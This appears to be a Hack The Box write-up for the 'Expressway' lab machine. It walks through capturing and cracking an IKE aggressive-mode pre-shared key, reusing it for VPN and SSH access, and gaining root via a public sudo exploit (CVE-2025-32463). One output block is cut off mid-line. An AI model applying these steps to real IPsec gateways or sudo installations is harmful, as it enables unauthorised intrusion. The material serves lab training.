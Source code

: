 ```yaml
---
name: Expressway
difficulty: easy
os: linux
platform: htb
date: 9999
releasedDate: 2099-12-31
userFlag: false
rootFlag: false

img: image_url
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.87 -oN allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
```


Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p22 -sCV 10.10.11.87 -oN targeted
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)
```

It seems that there is only SSH port open on TCP. It's version it is quite recent, so we will try enumerating UDP.

We scan the target machine for open UDP ports using Nmap. We will use the `-sU` option to scan UDP ports :
```bash
sudo nmap -p- -sU --min-rate 5000 -vvv -Pn -n 10.10.11.87 -oN allPortsUDP
```
```
PORT    STATE SERVICE
500/udp open  isakmp
```

We use `ike-scan` to enumerate the IKE service on UDP port 500:
```bash
sudo ike-scan -A 10.10.11.87
```
```
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87	Aggressive Mode Handshake returned 
    HDR=(CKY-R=74ed959da9a03d23) 
    SA=(
        Enc=3DES 
        Hash=SHA1 
        Group=2:modp1024 
        Auth=PSK 
        LifeType=Seconds 
        LifeDuration=28800
    ) 
    KeyExchange(128 bytes) 
    Nonce(32 bytes) 
    ID(Type=ID_USER_FQDN, 
    Value=ike@expressway.htb) 
    VID=09002689dfd6b712 
    (XAUTH) 
    VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) 
    Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.053 seconds (18.91 hosts/sec).  1 returned handshake; 0 returned notify
```

We find out the server is using Aggressive Mode with PSK authentication. We also get `ike` which looks like a system user.

We use `-P` option to output the aggressive mode pre-shared key (PSK) parameters for offline cracking  using  the  `psk-crack`  program  that is supplied with ike-scan.
```bash
sudo ike-scan -Ppsk.txt -A 10.10.11.87
```

The output is saved in `psk.txt` file and can be cracked using `psk-crack` or `hashcat` and a wordlist like `rockyou.txt`:
```bash
hashcat -m 5400 psk.txt /usr/share/wordlists/rockyou.txt
```

This will give us the PSK `freakingrockstarontheroad`.

Next, we will connect to the VPN using `strongswan`. First, we need to create a configuration file `/etc/ipsec.conf`:
```bash
config setup
    charondebug="ike 2, knl 2, cfg 2"
    uniqueids=no

conn ikev1
    keyexchange=ikev1
    authby=psk
    ike=aes256-sha1-modp1024!
    esp=aes256-sha1!
    left=%defaultroute
    leftid=ike@expressway.htb
    right=10.10.11.87
    rightid=ike@expressway.htb
    rightsubnet=0.0.0.0/0
    auto=start
```

We also need to add the PSK to `/etc/ipsec.secrets`:
```bash
ike@expressway.htb : PSK "freakingrockstarontheroad"
```
We can now start the VPN connection using `ipsec`:
```bash
sudo ipsec restart
sudo ipsec up ikev1
```
```
initiating IKE_SA ikev1[1] to 10.10.11.87
generating IKE_AUTH request 1 [ IDi N(INITIAL_CONTACT) N(AUTH) N(ADDR) N(MOBIKE_SUP) ]
sending packet: from
<your_ip_address>[500] to

We can now try connecting via SSH using the `ike` user and the PSK as password:
```bash
ssh ike@10.10.11.87
whoami
```
```
ike
```

We have successfully logged in as the `ike` user. Now we can check the home directory for the user flag:
```bash
cat /home/ike/user.txt
```
```
user flag value
```


## Root Exploitation

We check the `sudo` version:
```bash
sudo -V
```
```
Sudo version 1.9.17
```

We look for possible vulnerabilities in this version online and find CVE-2025-32463.

We copy the exploit from https://github.com/pr0v3rbs/CVE-2025-32463_chwoot/

We run the exploit to get a root shell:
```bash
chmod +x sudo_chwoot.sh
./sudo.chwoot.sh
```
```
woot!
```

Now, we have a root shell:
```bash
whoami
cat /root/root.txt
```
```
root
root flag value
```

## Conclusion

We have successfully exploited the Expressway machine and obtained both user and root flags. The key steps involved enumerating the IKE service, cracking the PSK, connecting via VPN, and exploiting a sudo vulnerability to gain root access. 
